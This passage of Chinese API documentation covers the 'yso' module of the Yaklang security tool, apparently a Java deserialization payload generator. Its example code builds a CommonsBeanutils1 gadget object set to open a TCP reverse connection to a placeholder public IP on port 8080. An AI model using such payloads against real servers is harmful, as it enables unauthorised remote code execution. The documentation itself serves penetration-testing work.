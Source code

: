 **请求参数**

- `token` : 要设置的 token。

**返回类型**

- `r1` : 返回一个 GenClassOptionFun 类型的值。

## 示例代码

### 基础用法

设置 token 并调用相关函数

```yaklang
host = '公网IP'
token = uuid()
yso.GetCommonsBeanutils1JavaObject(yso.useTcpReverseTemplate(),yso.tcpReverseHost(host),yso.tcpReversePort(8080),yso.tcpReverseToken(token))
```

## 66. `yso.threeBytesCharString`

## 功能描述

设置序列化时使用三字节字符串

## 参数说明

```
func func threeBytesCharString() => => MarshalOptionFun
```

**请求参数**


**返回类型**

- `r1` : 返回一个MarshalOptionFun类型的函数

## 示例代码

### 基础用法

设置序列化时使用三字节字符串

```yaklang
gadgetBytes,_ = yso.ToBytes(gadgetObj,yso.threeBytesCharString())
```

## 67. `yso.twoBytesCharString`

## 功能描述
